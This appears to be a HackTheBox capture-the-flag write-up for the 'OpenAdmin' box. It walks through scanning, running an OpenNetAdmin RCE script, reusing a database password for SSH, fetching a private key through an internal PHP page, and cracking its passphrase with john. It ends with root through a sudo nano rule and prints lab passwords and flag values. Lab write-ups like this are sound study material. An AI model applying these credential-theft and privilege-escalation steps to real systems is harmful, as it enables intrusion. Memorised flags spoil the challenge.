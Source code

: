 # OpenAdmin

Author: Ewaël

**OpenAdmin** is an easy HackTheBox box by dmw0ng.

`nmap -sC -sV 10.10.10.171 -v -A` shows ports 80 and 22 are open. Let's check the website first. It's only the Apache default page, so I use `dirb http://10.10.10.171` to find the entry point, which shows that `/music` exists.

![music](music.png)

I decide to login and successfully log as a guest on an *OpenNetAdmin* page.

![ona](ona.png)

After checking for possible exploits of this version, I find a RCE exploit. I download the script `exploit.sh` and use it with

```
./exploit.sh http://10.10.10.171/ona/
```

It gives me a shell as `www-data` but I can't move from `/opt/ona/www`. First of all `ls -all /home` shows me that two users exist: `jimmy` and `joanna`.

After searching in every directory in the working directory, I finally find something in `local/config/database_settings.inc.php`:

```php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

I decide to use that password to log as `jimmy` with ssh, and it works but `jimmy` does not have the user flag. After moving around I go back to `/var/www` and I see I can access a new directory:

```
$ ls -all /var/www:
total 16
drwxr-xr-x  4 root     root     4096 Nov 22 18:15 .
drwxr-xr-x 14 root     root     4096 Nov 21 14:08 ..
drwxr-xr-x  6 www-data www-data 4096 Nov 22 15:59 html
drwxrwx---  2 jimmy    internal 4096 Nov 23 17:43 internal
lrwxrwxrwx  1 www-data www-data   12 Nov 21 16:07 ona -> /opt/ona/www
```

`internal` contains an interesting `main.php`:

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

I must connect to `/internal` and request `main.php` so it prints me `joanna` private RSA key, but it does not work on port 80. To find other ports with listening sockets I use `netstat -tulpn` and try every port, and it finally works with

```
curl http://127.0.0.1:52846/main.php
```

Now that I have `joanna`'s private key, I must have her passphrase. I crack it with john and the usual wordlist after transforming the key into a format john can work with:

```
$ python /usr/share/john/ssh2john.py joanna_rsa > joanna_rsa_hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt joanna_rsa_hash
```

It gives me the passphrase `bloodninjas`. I can now log as `joanna`:

```
ssh joanna@10.10.10.171 -i joanna_rsa
```

I get the user flag:

`c9b2cf07d40807e62af62660f0c81b5f`

The first thing I do is `sudo -l` which shows I can run `/bin/nano` on `/opt/priv` as root. So I just have to `sudo nano /opt/priv`, CTRL-R to open a file and open `/root/root.txt`:

`2f907ed450b361b2c2bf4e8795d5b561`
